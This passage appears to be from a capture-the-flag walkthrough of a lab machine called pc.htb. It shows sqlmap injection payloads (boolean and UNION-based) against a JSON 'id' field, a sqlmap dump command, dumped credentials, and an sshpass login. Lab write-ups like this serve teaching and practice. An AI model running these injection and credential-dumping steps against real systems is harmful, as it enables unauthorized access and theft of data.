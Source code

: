 ```bash
    Payload: {"timeout_seconds":1,"metadata":[{"name":"token","value":"eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyX2lkIjoiY2FtcGJlbGwiLCJleHAiOjE2ODYwNzc5NjN9.hj-Ue198m9riGI8JkHkNXpeviMc2WG2dWDlMvY9p5Es"}],"data":[{"id":"1 AND 9601=9601"}]}

    Type: UNION query
    Title: Generic UNION query (NULL) - 4 columns
    Payload: {"timeout_seconds":1,"metadata":[{"name":"token","value":"eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyX2lkIjoiY2FtcGJlbGwiLCJleHAiOjE2ODYwNzc5NjN9.hj-Ue198m9riGI8JkHkNXpeviMc2WG2dWDlMvY9p5Es"}],"data":[{"id":"-9757 UNION ALL SELECT CHAR(113,113,106,118,113)||CHAR(74,108,100,86,88,72,90,88,110,74,79,75,109,90,121,120,107,104,99,118,114,83,80,108,82,101,101,73,105,67,74,104,87,112,121,86,100,86,114,80)||CHAR(113,120,107,98,113)-- BDOq"}]}
---
[20:57:58] [INFO] the back-end DBMS is SQLite
back-end DBMS: SQLite
[20:57:58] [INFO] fetched data logged to text files under '/home/campbell/.local/share/sqlmap/output/127.0.0.1'
[20:57:58] [WARNING] your sqlmap version is outdated

[*] ending @ 20:57:58 /2023-06-20/
```

My hunch was correct, the __ID__ parameter is vulnerable to time-based SQL injection. Lets do a simple dump of all the SQLite contents and see what we get and then go from there.

```bash
sqlmap -r 'path_to_request_file' –dump
```

Yay, this returns credentials for a user in the SQLite_masterdb database. No extra data parsing needs to be done.

```bash
+------------------------+----------------------------+
| password                            | username |
+------------------------+----------------------------+
| admin                               | admin |
| <redacted>                          | sau |
+------------------------+----------------------------+
```

Luckily enough for us, Sau’s password actually allows us to ssh into the box as him: 

```bash
sshpass -p 'redacted' ssh sau@pc.htb
```

We now can grab the user flag!

```bash
sau@pc:~$ cat user.txt 
teehee_do_it_yourself <<(^^,)>>
```

## Privilege Escalation to Root
